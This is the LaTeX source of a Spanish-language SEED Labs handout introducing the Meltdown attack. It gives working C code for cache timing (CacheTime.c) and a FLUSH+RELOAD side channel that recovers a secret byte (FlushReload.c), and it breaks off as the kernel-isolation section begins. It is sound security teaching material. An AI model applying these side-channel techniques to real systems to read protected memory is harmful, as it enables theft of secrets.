%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}
\usepackage{hyperref}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{
Debe enviar un informe de laboratorio detallado, con capturas de pantalla, para describir lo que ha hecho y lo que ha observado.
También debe proporcionar una explicación a las observaciones que sean interesantes o sorprendentes.
Enumere también los fragmentos de código más importantes seguidos de una explicación. No recibirán créditos aquellos fragmentos de códigos que no sean explicados.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net}.\xspace}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. Para más detalles \url{https://www.handsonsecurity.net/video.html}.\xspace}

%% Lab Environment
\newcommand{\seedenvironment}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentA}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 16.04, que puede ser descargada del sitio oficial de SEED.\xspace}

\newcommand{\seedenvironmentB}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED .\xspace}

\newcommand{\seedenvironmentC}{Este laboratorio ha sido testeado en nuestra imagen pre-compilada de una VM con Ubuntu 20.04, que puede ser descargada del sitio oficial de SEED. Sin embargo, la mayoría de nuestros laboratorios pueden ser realizados en la nube para esto Ud. puede leer nuestra guía que explica como crear una VM de SEED en la nube.\xspace}

\newcommand{\seedenvironmentAB}{
Este laboratorio ha sido testeado en nuestras imagenes pre-compiladas de una VM con Ubuntu 16.04 y otra con Ubuntu 20.04, que pueden ser descargadas del sitio oficial de SEED.\xspace}

\newcommand{\nodependency}{Dado que utilizamos contenedores para configurar el entorno de laboratorio, este laboratorio no depende estrictamente de la VM de SEED. Puede hacer este laboratorio utilizando otras máquinas virtuales, máquinas físicas o máquinas virtuales en la nube.\xspace}

\newcommand{\adddns}{You do need to add the required IP address mapping to
the \texttt{/etc/hosts} file.\xspace}






\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      Este trabajo se encuentra bajo licencia Creative Commons.
       Attribution-NonCommercial-ShareAlike 4.0 International License.
       Si ud. remezcla, transforma y construye a partir de este material,
       Este aviso de derechos de autor debe dejarse intacto o reproducirse de una manera que sea razonable para el medio en el que se vuelve a publicar el trabajo.
       }}
\vspace{0.1in}
}







\lhead{\bfseries SEED Labs -- Laboratorio del Ataque Meltdown }
\newcommand{\meltdownFigs}{./Figs}


\begin{document}

\begin{center}
{\LARGE Laboratorio del Ataque Meltdown}
\end{center}

\seedlabcopyright{2018}


% *******************************************
% SECTION
% ******************************************* 
\section{Introducción}

Descubierta en el 2017 y publicada en Enero del 2018, los fallas que explotan la vulnerabilidad Meltdown se abusan de un fallo crítico que existen en muchos procesadores modernos, incluyendo procesadores Intel y ARM \cite{Lipp2018meltdown}. 
Estas vulnerabbilidades permiten que un programa que corre con privilegios de usuario lean datos guardados dentro de la memoria del kernel. Este tipo de acceso no es permitido por las protecciones de hardware en la mayoría de los CPUs, pero existe una vulnerabilidad en el diseño de estos procesadores que permiten evadir esta protección. Dado que esta vulnerabilidad existe a nivel de hardware, es muy difícil resolver el problema de raíz, al menos que se cambie el procesador de la PC. La vulnerabilidad Meltdown representa un tipo especial de falla en el diseño de los CPUs, junto con la vulnerabilidad Spectre, nos proveen una invaluable lección para la educación de la seguridad.

\underline{Objetivos del Aprendizaje} El objetivo de este laboratorio es que los estudiantes puedan aprender y logren experiencia en el Ataque Meltdown. El ataque por sí mismo es algo sofisticado, es por eso que para una mejor compresión del mismo y de como atacarlo, lo hemos fragmentado en pequeños pasos. Una vez que los estudiantes entiendan cada uno de los pasos, no debería de resultarles difícil reunir todos los elementos y proceder a realizar el ataque. Los estudiantes usarán el Ataque Meltdown para mostrar en pantalla/obtener e imprimir un dato secreto guardado dentro del kernel. 

Este laboratorio cubre los siguientes tópicos:

\begin{itemize}[noitemsep]
\item Ataque Meltdown 
\item Ataque Side channel 
\item CPU Caching
\item Ejecución fuera de orden dentro de la microarquitectura del CPU
\item Protección de memoria en el kernel a nivel Sistema Operativo
\item Módulos del Kernel
\end{itemize} 


\paragraph{Lecturas y Videos.}
Para una cobertura más detallada sobre el ataque Meltdown puede consultar:

\begin{itemize}
\item Capítulo 13 del libro de SEED, \seedbook
\item Sección 8 del curso de SEED en Udemy, \seedcsvideo
\end{itemize}



\paragraph{Entorno de Labooratorio.} \seedenvironment Dentro de la Máquina Virtual de SEED que corre Ubuntu 20.04, las tareas de la 1 a la 6 funcionarán como se espera, pero las tareas 7 y 8 no loo harán debido a la protección implementada en el sistema operativo.

Al usar este laboratorio, los instructores deberán tener en cuenta lo siguiente:
Primero, la vulnerabilidad de Meltdown es una falla dentro de los CPUs Intel, por lo que sí la máquina de un estudiante se encuentra corriendo un procesador AMD el ataque no funcionará. 
Segundo Intel está trabajando para solucionar este problema en sus CPUs, por lo que si la máquina de un esttudiante usa un procesador nuevo de Intel el ataque puede no funcionar. Esto no es un problema por ahora (Febrero 2018), pero de acá aa 6 meses es posible que la situación cambie.
Tercero, aunque la mayoría de los estudiantes tengan máquinas parcheadas, el ataque es realizado dentro de nuestras Máquinas Virtuales las cuales no lo están, por lo que el ataque será efectivo.
Los estudiantes no deben de actualizar el sistema operativo de sus Máquinas Virtuales debido a que las actualizaciones puedan llegar a parchear esta vulnerabilidad y el ataque ya no será exitoso.


\paragraph{Agradecimientos} Este laboratorio ha sido desarrollado con la ayuda de 
Hao Zhang y Kuber Kohli, estos estudiantes son estudiantes graduado en el Departamento de Ingeniería Electrónica y Ciencias de la Computación de la Universidad de Syracuse.



% *******************************************
% SECTION
% *******************************************
%\section{Lab Environment Setup}
%\section{Tasks 1-2: Side Channel Attacks}

\newcommand{\sideChannelFigs}{./Figs}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% *******************************************
% SECTION
% *******************************************
\section{Compilación del Código}
\label{sidechannel:sec:compilation}

Para la mayoría de nuestras tareas, necesitará agregar la opción \texttt{-march=native} a la hora de copilar el código con \texttt{gcc}. La opción \texttt{march} le indica al compilador que debe activar todas el conjunto de  instrucciones soportadas por la máquina en donde se va a ejecutar este código.
Por ejemplo, compilaremos \texttt{myprog.c} usando el siguiente comando:

\begin{lstlisting}
$ gcc -march=native -o myprog myprog.c
\end{lstlisting}



% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 1 y 2: Ataque de Side Channel usando la caché del CPU}

Los ataques Meltdown y Spectre usan la caché del CPU como side channel (canal encubierto) para robar información que se supone protegida. La técnica usada en este ataque de side channel se llama FLUSH+RELOAD~\cite{Yarom2014}. 
Primero estudiaremos esta técnica. El código desarrollado en las tareas siguientess serán usados como base para futuras tareas.

La caché del CPU es una caché a nivel hardware usada por la CPU de una computadora para reducir el tiempo promedio de acceso a los datos en la memoria principal. Aceder a los datos en la caché del CPU es mucho más rápido que hacerlo en la memoria principal. Cuando los datos son obtenidos de la memoria principal por lo general son cacheados por la CPU, por lo que si se esos datos se usan nuevamente el tiempo de acceso será mucho más rápido. Ademas cuando la CPU necesita acceder a cierta porción de datos, primero busca en su caché. Si los datos están ahí (caché hit) serán obtenidos directtamente de esa caché de otra forma la CPU irá a la memoria principal para obtenerlos. El tiempo que se usa en la última operación es significativamente más alto. La mayoría de los CPUs modernos poseen estas caches.


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/cachehitmiss.pdf}
\caption{Cache hit and miss}
\label{sidechannel:fig:cachehitmiss}
\end{figure}


\subsection{Tarea 1: Leyendo de la caché vs Memoria }

La memoria caché es usada por los procesadores para acelerar el tiempo de acceso a los datos. Las memorias caches son más rapidas en comparación a la memoria principal.
Veamos el tiempo diferencial. En el siguiente código (\texttt{CacheTime.c}), tenemos un arreglo de tamaño \texttt{10*4096}. Primero accedemos a dos de sus elementos \texttt{array[3*4096]} y \texttt{array[7*4096]}. Lás páginas que contienen estos dos elementos serán cacheadas. Luego procederemos a leer los elementos desde \texttt{array[0*4096]} hasta \texttt{array[9*4096]} y medireos el tiempo de lectura usado en la memoria.
La Figura \ref{sidechannel:fig:cachehitmiss} ilustra la diferencia.
En la Línea \ding{192} del código usado se realiza la lectura del contador del timestamp del CPU (TSC) antes de que realizar la lectura en memoria, mientras que en la Línea \ding{193} se lee el contador después de realizar la lectura en memoria. La diferencia de tiempo (expresada en el números de ciclos de CPU), representa el tiempo de lectura en memoria.
Cabe destacar que el proceso de cacheo se hace a nivel bloque, no a nivel de byte. El tamaño habitual de un bloque de caché son 64 bytes. Hemos usado \texttt{array[k*4096]}, para que los dos elementos que son cacheados no estén ubicados en el mismo bloque de la caché. 


\begin{lstlisting}[caption=\texttt{CacheTime.c}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[10*4096];

int main(int argc, const char **argv) {
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  
  // Initialize the array
  for(i=0; i<10; i++) array[i*4096]=1;

  // FLUSH the array from the CPU cache
  for(i=0; i<10; i++) _mm_clflush(&array[i*4096]);

  // Access some of the array items
  array[3*4096] = 100;
  array[7*4096] = 200;

  for(i=0; i<10; i++) {
    addr = &array[i*4096];
    time1 = __rdtscp(&junk);                  (*@\ding{192}@*)
    junk = *addr;
    time2 = __rdtscp(&junk) - time1;          (*@\ding{193}@*)
    printf("Access time for array[%d*4096]: %d CPU cycles\n",i, (int)time2);
  }
  return 0;
}
\end{lstlisting}

Por favor compile el siguiente código usando \texttt{gcc -march=native
CacheTime.c} y ejecútelo. ¿Es más rápido acceder a \texttt{array[3*4096]} y \texttt{array[7*4096]} que acceder a otros elementos? Debe ejecutar el programa al menos 10 veces y describir sus observaciones. Dado este experimento debe de encontrar un valor umbral que pueda ser usado para distinguir entre estos dos tipos de acceso en memoria: acceder a los datos desde la caché versus acceder a los datos desde la memoria principal. Este umbral es importante para el resto de las tareas en este laboratorio.

% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Tarea 2: Usando la caché como Side Channel}


\begin{figure}[htb]
\centering

\includegraphics[width=0.9\textwidth]{\sideChannelFigs/flushreload.pdf}
\caption{Ataque Side Channel}
\label{sidechannel:fig:flushreload}
\end{figure}

El objetivo de esta tarea es usar el side channel para extraer un valor secreto usado por la función víctima. Asuma que existe una función víctima que usa un valoor secret como índice para cargar algunos valores de un arreglo. También asuma que ese valor secreto no puede ser accedido desde afuera. Nuestro objetivo es usar side channels para obtener este valor secreto. Esta técnica llamada FLUSH+RELOAD~\cite{Yarom2014}. Figura \ref{sidechannel:fig:flushreload} ilustra esta técnica que se conforma en tres pasos:

\begin{enumerate}[noitemsep]

\item Hace un FLUSH de todo el arreglo en la memoria caché para asegurarse que el arreglo no este cacheado.

\item Invoca la función víctima, que accede a uno de los elementos del arreglo basado en el valor del secreto. Esta acción provoca que este elemento sea cacheado.

\item Hace un RELOAD de todo el arreglo y mide el tiempo que toma en hacer el reload por cada uno de los elementos que contiene el arreglo. Si el tiempo de carga de un elemento específico del arreglo es más rápido, lo más probable es que ese elemento este dentro de la ache.
Este elemento debe ser el que usa la función víctima. 
Debemos de averiguar cual es su valor secreto.
\end{enumerate}

El siguiente programa usa la técnica FLUSH+RELOAD para encontrar un valor secreto de 1 byte ubicado en la variable \texttt{secret}. Dado que existen 256 valores posibles para un secreto de 1 byte, necesitamos mapear cada valor en un elemento diferente dentro del arreglo. La forma naive de hacer es definir un arreglo de 256 ellementos (es decir \texttt{array[256]}). Sin embargo, esto no va a funcionar. El cacheo se hace a nivel blooque, no a nivel bbyte. Si se accede a \texttt{array[k]} un blooque de memoria que contiene este elemento será cacheado junto con los elementos adyacentes del arreglo \texttt{array[k]}, dificultando la inferencia de cual es el valor secreto.
Para solucionar este problema, hemos creado un arreglo de \texttt{256*4096} bytes, dado que \texttt{4096} es mucho mayor en tamaño que el bloque default de la caché (64 bytes), de esta forma nos aseguramos que no existan elementos adyacentes en el mismo bloque por lo que \texttt{array[i*4096]} y \texttt{array[j*4096]} estarán en diferentes bloques.

Dado que  \texttt{array[0*4096]} puede caer en el mismo bloque de caché que las variables de memoria adyacentes, puede ser accidentalmente cacheado durante el proceso de cacheo de esas variabbles. Por otro lado debemos evitar usar  \texttt{array[0*4096]} en el método de FLUSH+RELOAD (para otro índice \texttt{k}, \texttt{array[k*4096]} no hay problema).
Para hacer esto consistente dentro del programa, usamos \texttt{array[k*4096 + DELTA]} para todos los valores \texttt{k} donde \texttt{DELTA} es una constante ya definida con el valor \texttt{1024}. 


\begin{lstlisting}[caption=\texttt{FlushReload.c}, label={sidechannel:list:flushreload}]
#include <emmintrin.h>
#include <x86intrin.h>

uint8_t array[256*4096];
int temp;
unsigned char secret = 94;

/* cache hit time threshold assumed*/
#define CACHE_HIT_THRESHOLD (80)
#define DELTA 1024

void flushSideChannel()
{
  int i;

  // Write to array to bring it to RAM to prevent Copy-on-write
  for (i = 0; i < 256; i++) array[i*4096 + DELTA] = 1;


  // Flush the values of the array from cache
  for (i = 0; i < 256; i++) _mm_clflush(&array[i*4096 +DELTA]);
}

void victim()
{
  temp = array[secret*4096 + DELTA];
}

void reloadSideChannel() 
{
  int junk=0;
  register uint64_t time1, time2;
  volatile uint8_t *addr;
  int i;
  for(i = 0; i < 256; i++){
     addr = &array[i*4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD){
         printf("array[%d*4096 + %d] is in cache.\n", i, DELTA);
         printf("The Secret = %d.\n",i);
     }
  }	
}

int main(int argc, const char **argv) 
{
  flushSideChannel();
  victim();
  reloadSideChannel();
  return (0);
}
\end{lstlisting}


Por favor compile el programa usando \texttt{gcc} ejecútelo (Vea la Sección \ref{sidechannel:sec:compilation} para las instrucciones de compilación).
Debe de nootar que esta técnica no es 100\% precisas y puede que los resultados que observa no sean los esperados en muchas instancias de su ejecución.
Ejecute el programa al menos 20 veces y cuenta cuantas veces obtiene el valor secreto de forma correcta. Puede ajustar el valor umbral \texttt{CACHE\_HIT\_THRESHOLD} al usado en la Tarea 1 (en este código se usa 80).






% *******************************************
% SECTION
% ******************************************* 
\section{Tarea 3-5: Preparación para el Ataque Meltdown}

La isolación de memoria es uno de los fundamentos principales la seguridad de los sistemas. En la mayoría de los sistemas operativos, la memoria del kernel no se puede acceder directamente desde programas que son ejecutados en el espacio de usuario. Esta isolación se logra por medio de un bit (supervisor bit) en el proesador que define cuando una página de memoria del kernel puede ser o no accedida. Este bit es seteado cuando la CPU entra en el espacio del kernel y se borra cuando este salta al espacio de usuario (\cite{wiki:protectionring}).
A través de este mecanismo el kernel puede asignar de manera segura el espacio de direcciones a cada uno de los procesos, por lo que la tabla de páginas no necesita cambiar cuando un programa del espacio de usuario cambia al espacio del kernel.
